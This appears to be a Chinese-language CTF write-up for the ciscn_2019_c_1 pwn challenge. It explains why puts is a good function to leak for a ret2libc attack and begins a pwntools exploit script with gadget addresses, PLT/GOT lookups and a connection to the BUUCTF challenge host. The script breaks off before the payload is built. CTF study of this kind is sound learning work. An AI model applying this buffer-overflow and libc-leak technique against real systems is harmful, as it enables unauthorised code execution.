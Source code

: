 ![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744633034687-96449a00-6879-4836-9a08-6abae4bf2fe6.png)

那么，我们该怎么选这个程序已经执行过的函数呢？可以通过下列条件进行筛选

## 选择依据

### 1. 函数的存在性和稳定性

要确保选择的函数在目标程序里是必然存在的，并且在不同的运行环境下（如不同的输入、不同的运行次数）都会被执行。比如标准库函数，它们在大多数程序中都会被链接和使用，像 `puts`、`printf` 等。

### 2. 函数调用的可触发性

该函数的调用要能够被轻易触发，也就是说，你要可以通过控制程序的输入或者执行流程来让这个函数被调用。例如，在存在缓冲区溢出漏洞的程序中，你可以通过构造合适的输入来覆盖返回地址，从而劫持程序流程并调用目标函数。

### 3. 函数地址的可泄露性

函数的调用要能够以某种方式把自身的地址信息泄露出来。常见的做法是利用格式化字符串漏洞，让函数的返回地址或者 GOT（Global Offset Table，全局偏移表）表项的值被输出到程序的输出中。

### 4. 函数的关联性

选择的函数最好和程序中的其他关键部分（如 libc 库）有紧密的关联。这样，一旦泄露了这个函数的地址，就可以根据这个地址计算出其他函数或者数据结构在内存中的地址，进而实现进一步的利用。

回到IDA，我们要看的是encrypt函数，因为main函数只是输入123选择进入的函数，没啥作用的，真正起作用的还是encrypt函数，可以自行nc测试一下

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744630322543-99a72f8c-29da-4f73-ab43-7cddca31152a.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0%2Fresize%2Cw_1125%2Climit_0)

这里，我们看到puts函数非常符合上述条件，就决定是你了！！！

最后，我们再nc测试一下，方便我们写exp

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744636329641-71411959-f5e3-4519-a948-98187b519934.png)

至此，我们编写exp（不懂看《补充》2，长一点的我都会放在补充那里，不然脚本看的好乱）

代码如下

```
#导入所模块
from pwn import*
from LibcSearcher import*

# 设置日志级别为 debug（要测试下面要r.recvline()多少次时可以去掉#观察）
context.log_level = 'debug'

#与靶机连接 
r=remote('node5.buuoj.cn',29683)

#获取ELF文件信息
elf=ELF('/home/ljy/Desktop/Desktop/ciscn_2019_c_1' )

#所需地址
main = 0x400B28			#IDA左边函数窗口自行获取
pop_rdi = 0x400c83
ret = 0x4006b9
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
#在大多数处理未开启 PIE 的 ELF 格式可执行文件的漏洞利用脚本中
#使用 elf.plt['puts'] 和 elf.got['puts'] 来
#获取 puts 函数的 PLT 地址和 GOT 地址是固定且通用的写法，但在特殊情况下可能需要进行调整。

#合适位置进入Encrypt函数 
r.sendlineafter('Input your choice!\n','1')

#构建payload
```